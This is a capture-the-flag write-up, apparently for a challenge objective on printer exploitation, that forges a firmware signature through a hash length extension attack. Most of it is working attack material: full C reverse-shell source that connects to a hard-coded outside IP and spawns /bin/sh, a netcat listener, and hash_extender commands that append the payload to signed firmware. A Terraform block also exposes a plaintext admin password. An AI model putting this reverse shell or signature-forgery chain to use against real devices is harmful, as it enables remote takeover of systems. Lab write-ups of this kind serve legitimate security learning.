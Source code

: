 ### Objective 7, "Printer Exploitation" / "Hash Extension"

![](printer_exploit_trees.jpg)

So this one is straight forward. We need to create a malware to obtain shell access on the printer.
Problem is that the firmware update process checks the signature of firmware updates.

After learning about the [hash extension attack](https://en.wikipedia.org/wiki/Length_extension_attack), which 
is able to generate a valid signature without knowledge of the secret, i tried to append a reverse shell
to the original firmware.

With a little [help](https://www.revshells.com/) i have customized a reverse-shell, which should contact
my VM in Azure (see below) at 20.103.17.200 upon execution.

```
> more shell.c
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 8080;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("20.103.17.200");

    connect(sockt, (struct sockaddr *) &revsockaddr,
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;
}
```

As i wanted to avoid opening any ports on ny home network, i have created an VM in Azure using this
terraform code:

```
module "linux-vm" {
  source = "git::https://github.com/omichels/terraform-modules/linux-vm"

  location              = "westeurope"
  rg_name               = azurerm_resource_group.rg.name
  vm_vnet_name          = "vnet-eng01-test"
  vm_vnet_address_space = "10.99.7.64/26"
  vm_subnet_name        = "eng01-subnet01-test"
  vm_pubip_name         = "debian01-pubIP-test"
  vm_nic_name           = "debian01-nic01-test"
  vm_name               = "debian01-test"
  vm_admin_name         = "azureuser"
  vm_admin_password     = "4-v3ry-53cr37-P455w0rd"
  vm_disk_size          = "30"
  nsg_open_ports        = [22, 8080]
}
```

After provisioning of that VM has finished I ssh-ed into it and opened a network listener:

```
$ nc –lvp 8080
```


Now we need to compile the shell.c and zip it

```
$ gcc shell.c -o firmware.bin
$ zip append.zip firmware.bin
```

The [hash_extender](https://github.com/solidgoldbomb/hash_extender) project from github is now used to 
generate a valid signature for our malware.

```
$ export SIGNATURE=$(cat firmware-export.json | jq .signature | tr -d "\"")
$ export FIRMWARE=$(cat firmware-export.json | jq .firmware | tr -d "\"" | base64 -d | xxd -p | tr -d "\n")
$ hash_extender --table --data=$FIRMWARE --data-format=hex --append-file=append.zip --append-format=hex -s $SIGNATURE -l 16
```


